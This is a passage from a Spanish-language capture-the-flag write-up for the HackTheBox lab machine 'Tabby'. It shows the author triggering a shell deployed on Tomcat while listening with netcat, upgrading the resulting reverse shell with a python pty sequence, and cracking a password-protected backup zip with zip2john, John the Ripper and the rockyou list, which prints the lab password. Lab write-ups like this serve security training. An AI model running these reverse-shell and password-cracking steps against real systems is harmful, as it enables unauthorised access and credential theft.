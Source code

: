 Ahora nos pondremos a la escucha con **netcat** y abriremos la shell [`http://10.10.10.194:8080/foo`](http://10.10.10.194:8080/foo) .

```
tomcat@tabby:/$ whoami
tomcat
```

Ya tendríamos una reverse shell. La haremos interactiva con la siguiente secuencia:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo; fg
export TERM=xterm
```

Viendo un poco lo que hay, nos encontramos con un backup comprimido en zip:

```
tomcat@tabby:/var/www/html/files$ ls -la
total 36
drwxr-xr-x 4 ash  ash  4096 Aug 19  2021 .
drwxr-xr-x 4 root root 4096 Aug 19  2021 ..
-rw-r--r-- 1 ash  ash  8716 Jun 16  2020 16162020_backup.zip
drwxr-xr-x 2 root root 4096 Aug 19  2021 archive
drwxr-xr-x 2 root root 4096 Aug 19  2021 revoked_certs
-rw-r--r-- 1 root root 6507 Jun 16  2020 statement
```

Si lo descargamos nos pide una contraseña:

```
❯ unzip 16162020_backup.zip
Archive:  16162020_backup.zip
   creating: var/www/html/assets/
[16162020_backup.zip] var/www/html/favicon.ico password:
```

### Zip2john

Usaremos la herramienta **zip2jhon** para convertirlo en un hash:

```
zip2john 16162020_backup.zip > hash.txt
```

### John The Ripper

Y ahora con **jhontheripper** lo craackearemos con **rockyou**:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (16162020_backup.zip)     
1g 0:00:00:01 DONE (2025-08-08 23:26) 0.6993g/s 7246Kp/s 7246Kc/s 7246KC/s adornadis..adhi1411
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
